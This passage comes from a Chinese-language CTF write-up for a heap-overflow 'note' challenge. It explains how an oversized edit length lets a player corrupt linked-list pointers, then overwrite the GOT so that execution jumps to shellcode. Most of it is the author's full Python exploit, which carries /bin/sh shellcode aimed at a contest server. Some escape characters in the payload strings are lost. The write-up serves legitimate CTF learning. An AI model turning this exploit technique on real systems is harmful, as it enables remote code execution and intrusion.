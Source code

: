 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;write(1,&nbsp;"choose&nbsp;a&nbsp;opt!n",&nbsp;0xEu);
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;break;
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;}
}</pre>

<p style="text-indent: 2em;">
  我们可以发现，它是维护了一个链表，链表的每个节点就是一个note，再联想一下前面两题PWN，一个栈溢出，一个格式化字符串漏洞，这题十有八九就是一个堆溢出的思想，不过就是把链表自己实现了而已。仔细观察一下程序，我们可以发现，它在new note的时候，做了严格的长度验证，没有溢出的机会，但是在edit note的时候，给出的长度值为0x400u，明显远大于需要的长度，那么这里无疑就是我们溢出的地方。通过溢出，修改链表中一个节点的prev和next指针为特定的值，这样，删除这个节点的时候我们就可以获得一次dword shooting的机会了。
</p>

<p style="text-indent: 2em;">
  然后再就是改哪里的问题，这题并没有随题附上一个libc.so，然后我们一看会发现，这题竟然是可运行的堆栈，这也就是为什么我觉得这题比前两题要简单的原因了，我们直接将shellcode放在某一个note中，然后修改GOT表，使得修改完后下一次函数调用的时候执行我们的shellcode即可。
</p>

<p style="text-indent: 2em;">
  下面是我比赛时的代码：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8
import&nbsp;socket
import&nbsp;binascii
s&nbsp;=&nbsp;socket.socket(socket.AF_INET,&nbsp;socket.SOCK_STREAM)
s.connect((&#39;218.2.197.248&#39;,&nbsp;10003))
for&nbsp;i&nbsp;in&nbsp;xrange(3):
&nbsp;&nbsp;&nbsp;&nbsp;s.send(&#39;1n&#39;)
&nbsp;&nbsp;&nbsp;&nbsp;s.recv(100)
&nbsp;&nbsp;&nbsp;&nbsp;s.send(str(i)&nbsp;+&nbsp;&#39;n&#39;)
&nbsp;&nbsp;&nbsp;&nbsp;s.recv(100)
&nbsp;&nbsp;&nbsp;&nbsp;s.send(str(i)&nbsp;+&nbsp;&#39;n&#39;)
&nbsp;&nbsp;&nbsp;&nbsp;s.recv(100)
&nbsp;&nbsp;&nbsp;&nbsp;s.send(str(i)&nbsp;+&nbsp;&#39;n&#39;)
&nbsp;&nbsp;&nbsp;&nbsp;s.recv(100)
s.send(&#39;3n&#39;)
s.recv(100)
s.send(&#39;0n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)
while&nbsp;ret.find(&#39;location:&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;ret&nbsp;+=&nbsp;s.recv(4096)
print&nbsp;ret
ret&nbsp;=&nbsp;ret[ret.find(&#39;location:&#39;)&nbsp;+&nbsp;11:]
ret&nbsp;=&nbsp;ret[:ret.find(&#39;n&#39;)]
addr&nbsp;=&nbsp;int(ret,&nbsp;16)
payload&nbsp;=&nbsp;&#39;xebx06&#39;&nbsp;+&nbsp;&#39;a&#39;&nbsp;*&nbsp;6&nbsp;+&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
payload&nbsp;+=&nbsp;&#39;a&#39;&nbsp;*&nbsp;(260&nbsp;-&nbsp;len(payload))
payload&nbsp;+=&nbsp;binascii.unhexlify(&#39;%08x&#39;&nbsp;%&nbsp;(addr&nbsp;+&nbsp;0x170))[::-1]
payload&nbsp;+=&nbsp;&#39;x70xa4x04x08&#39;
payload&nbsp;+=&nbsp;binascii.unhexlify(&#39;%08x&#39;&nbsp;%&nbsp;(addr&nbsp;+&nbsp;108))[::-1]
s.send(&#39;4n&#39;)
s.recv(100)
s.send(&#39;0n&#39;)
s.recv(100)
s.send(payload&nbsp;+&nbsp;&#39;n&#39;)
s.recv(100)
s.send(&#39;5n&#39;)
s.recv(100)
s.send(&#39;%08x&#39;&nbsp;%&nbsp;(addr&nbsp;+&nbsp;0x170)&nbsp;+&nbsp;&#39;n&#39;)
s.recv(100)
s.send(&#39;cat&nbsp;/home/pwn3/flag/flagn&#39;)
s.recv(100)</pre>
